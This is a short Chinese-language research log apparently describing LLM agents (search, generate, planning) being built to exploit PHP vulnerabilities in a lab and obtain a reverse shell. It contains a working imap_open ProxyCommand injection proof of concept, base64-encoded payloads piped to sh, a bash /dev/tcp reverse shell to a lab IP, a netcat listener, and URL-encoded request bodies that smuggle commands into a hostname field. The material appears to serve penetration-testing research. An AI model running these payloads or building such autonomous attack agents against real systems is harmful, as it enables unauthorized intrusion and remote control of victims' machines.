


# 250702

这周主要在针对php类漏洞进行测试，目标是获得执行reverse shell，获得目标靶机终端的控制权。

## 实验部分

比较官方的cve攻略链接里可能只有比较简单的example，但是我觉得应该至少攻击要执行到获取到目标靶机shell端的控制权的程度





## Search Agent

- 工具类的参数整理效果还行: `nc -nvlp {port}

  ```json
  {
  "tool_name": "nc (Netcat)",
  "tool_description": "A versatile networking utility used for reading from and writing to network connections using TCP or UDP. Commonly used for setting up reverse shells or listening on ports.",
  "tool_usage": "nc -lvnp {port}",
  "comment": "# -l : Listen mode, used to wait for an incoming connection\n# -v : Verbose output (optional)\n# -n : Numeric-only IP addresses, no DNS\n# -p 4444 : Port number to listen on (can be changed by replacing 4444 with your desired port)\n\n# Example: Change the listening port to 1234\nnc -lvnp 1234"
  }
  ```
- 脚本类的参数整理效果很不行，但是送到 `Generate Agent`那边推理过后可能最后能生成一个正确的脚本，效果不稳定

  

  ```json
  {
    "tool_name": "imap_open exploit script",
    "tool_description": "A proof-of-concept PHP script that exploits the imap_open function to execute arbitrary shell commands even when functions like exec are disabled, by injecting a malicious mailbox string with ProxyCommand.",
    "tool_usage": "<?php\n\n//{base64-encoded payload}",
    "comment": "Example payload: echo '123456789'>/tmp/test0001 encoded as: ZWNobyAnMTIzNDU2Nzg5Jz4vdG1wL3Rlc3QwMDAxCg==\n\n$server = \"x -oProxyCommand=echo\\tZWNobyAnMTIzNDU2Nzg5Jz4vdG1wL3Rlc3QwMDAxCg==|base64\\t-d|sh\";\n\n
  // Use imap_open to trigger the payload via ProxyCommand injection\nimap_open('{'.$server.':143/imap}INBOX', '', '') or die(\"\\n\\nError: \".imap_last_error());"
  }
  ```

## Planning Agent 

启用搜索的时机还要再规划一下

```html
PTT examples

4. reverse shell
  4.1 crafting a reverse shell request
    4.1.1 base64 encode(completed)
        echo 'echo "/bin/bash -i >& /dev/tcp/192.168.137.33/4444 0>&1" > /tmp/123' | base64
    4.1.2 modify request(completed)
        hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
  4.2 crafting a request to trigger the reverse shell
    4.2.1 base64 encode
  4.2 reverse shell
    4.2.1 local listening(completed)
        nc -lvp 4444
    4.2.1 crafting a request to trigger the reverse shell
        4.2.1.1 base64 encode(completed)
              echo '/bin/bash /tmp/123' | base64
        4.2.1.1 modify request(completed)
              hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=111

```
